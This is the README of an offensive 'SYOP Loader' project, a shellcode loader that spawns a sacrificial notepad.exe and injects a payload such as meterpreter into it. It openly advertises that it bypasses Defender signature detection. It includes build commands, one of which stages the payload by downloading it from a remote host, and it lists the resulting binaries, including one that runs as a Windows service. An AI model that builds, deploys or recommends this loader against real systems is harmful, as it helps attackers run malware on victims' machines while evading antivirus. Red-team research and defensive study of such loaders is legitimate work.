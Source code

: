 # Start Your Own Process Loader (aka SYOP Loader)

This is a proof-of-concept shellcode loader that compiles to PIC shellcode. It starts a sacrificial process (notepad.exe) before injecting something bad (ie meterpreter) into it.

This should bypass some signature hits for Defender if you are trying to load something sketchy. It has been proven to be better than a simple VirtualAlloc/CreateThread shellcode loader that loads into the current process

*The build toolchain, PE tricks and entire project is based on [c-to-shellcode](https://github.com/Print3M/c-to-shellcode)*

## Setup
```sh
# Check mingw (mine is 10-win32 20220113)
x86_64-w64-mingw32-gcc-win32 --version
```

## Building
```sh
# Option1 - Non staged (embed shellcode in payload)
python3 compile.py --shellcode-file <payload.bin>

# Option2 - Staged
python3 compile.py --stager-url http://1.2.3.4:1234/payload.bin
```
This will produce three files in the `bin` directory:

- `payload.bin` - Position independent shellcode of the loader
- `payload.exe` - Debug version of the loader that is linked as a normal exe and with logging
- `loader_exe.exe` - An example exe which you can use for testing the loader shellcode. It will load and execute the same shellcode within `payload.bin`.
- `loader_svc.exe` - Same as `loader_exe` but behaves as a Windows service (for loading and testing your shellcode)

# Example
![example](example.png)
